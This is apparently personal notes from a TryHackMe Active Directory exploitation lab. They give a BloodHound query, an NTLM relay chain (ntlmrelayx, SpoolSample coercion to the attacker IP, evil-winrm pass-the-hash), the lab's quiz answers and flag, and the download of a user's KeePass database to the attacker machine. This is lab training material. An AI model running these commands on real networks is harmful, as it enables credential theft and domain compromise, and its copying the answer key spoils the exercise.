   ```MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p```
ntlmrelayx.py -smb2support -t smb://10.200.60.201 -debug

#in powershell session

exit
#exit powershell
#we are in ssh now

cd C:\Tools

#execute exploit using attacker IP
SpoolSample.exe THMSERVER2.za.tryhackme.loc "10.50.57.82"

#ntlmrelay dumps hashes

#use ServerAdmin hash to log into THMSERVER1
evil-winrm -u ServerAdmin -H <serveradmin-hash> -i 10.200.60.201
#get flag from Administrator.ZA Desktop
```

```markdown
1. How often (in days) are the passwords of Windows machine accounts rotated by default? - 30

2. What should not be enforced if we want to relay an SMB authentication attempt? - smb signing

3. What is the value of the flag stored in the Desktop directory of the Administrator.ZA user on THMSERVER1 (flag3.txt)? - THM{Printing.Some.Shellz}
```

## Exploiting AD Users

* Users are the weakest link the security chain; here we can exploit them using two elements:

  * Credential management
  * Keylogging

```ps
#in evil-winrm session as ServerAdmin
cd C:\Users

Get-ChildItem -Recurse
#print directory contents recursively
#this shows .kdbx file

cd C:\Users\trevor.local\Documents

dir
#PasswordDatabase.kdbx

download C:\Users\trevor.local\Documents\PasswordDatabase.kdbx /home/sv/PasswordDatabase.kdbx
#download to attacker machine
#this is encrypted, so we need to find another way
```
